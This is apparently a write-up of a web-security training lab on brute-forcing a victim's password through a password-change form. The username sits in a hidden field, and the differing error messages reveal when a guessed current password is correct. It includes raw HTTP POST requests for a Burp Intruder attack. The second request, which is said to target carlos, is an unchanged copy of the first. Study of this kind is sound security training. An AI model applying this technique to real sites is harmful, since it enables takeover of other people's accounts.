









# Password brute-force via password change

## Lab Description :


## Overview :
Changing user passwords -

Typically, changing your password involves entering your current password and then the new password twice. These pages fundamentally rely on the same process for checking that usernames and current passwords match as a normal login page does. Therefore, these pages can be vulnerable to the same techniques.

Password change functionality can be particularly dangerous if it allows an attacker to access it directly without being logged in as the victim user. For example, if the username is provided in a hidden field, an attacker might be able to edit this value in the request to target arbitrary users. This can potentially be exploited to enumerate usernames and brute-force passwords.

## Solution :
Go to the login page. Enter the test credentials wiener:peter to login & test the functionality.

We are redirected to this page where we can change our current password.

In the source code of the page we see that the username wiener is embedded in the form which means the username wiener is taken from client side i/p & we can change the value of it.





When we enter correct current password & 2 different new passwords like peter:1234:123, we get this response New passwords do not match



When we enter correct password & 2 same new passwords like peter:1234:1234 , we get this response Password changed successfully!



When we enter wrong current password & 2 different new passwords like asdf:1234:123 , we get this response current password is incorrect

 
 
When we enter wrong current password & 2 same new password asdf:1234:1234 , our account gets locked.



When I changed the password for my own account, the result was a 200 OK. My first guess is that after the current password is wrong during the password change, the system invalidates the current session. I try it out by changing the password of wiener but provide an incorrect current password.

Sure enough, I receive a 302 to the login page and lost my session.

So before every password change attempt, I log in as wiener to provide a valid session and use it for one password guess.

By using the 1 & 3 use case, we can try to bruteforce carlos's password by giving 2 different new passwords and bruteforcing the current password field.

A POST request is sent when we hit change password button after entering the new password.
```html
POST /my-account/change-password HTTP/1.1
Host: 0a3e00b9033484b68031c6c200d200ef.web-security-academy.net
Cookie: session=Ag1n1PPcuDteDoMFjYmY4gHIxBOjTpjs
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 92
Origin: https://0a3e00b9033484b68031c6c200d200ef.web-security-academy.net
Referer: https://0a3e00b9033484b68031c6c200d200ef.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=wiener&current-password=peter&new-password-1=1234&new-password-2=123
```
To bruteforce carlos's password , send the request to intruder & change the username parameter to username=carlos & add current-password=$peter as payload part with 2 differnt newpassword.

Paste the given usrename list in lab as payload.
```html
POST /my-account/change-password HTTP/1.1
Host: 0a3e00b9033484b68031c6c200d200ef.web-security-academy.net
Cookie: session=Ag1n1PPcuDteDoMFjYmY4gHIxBOjTpjs
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 92
Origin: https://0a3e00b9033484b68031c6c200d200ef.web-security-academy.net
Referer: https://0a3e00b9033484b68031c6c200d200ef.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=wiener&current-password=peter&new-password-1=1234&new-password-2=123
```
If the current password is right it will display - New passwords do no match Else we get - current password is incorrect

After the attack is complete, we can grep for the word new passwords do not match. We got the password of carlos as maggie.



Now login as carlos - ``carlos:maggie`` to solve the lab.




#### Visit The Next Page For The Next Level :)
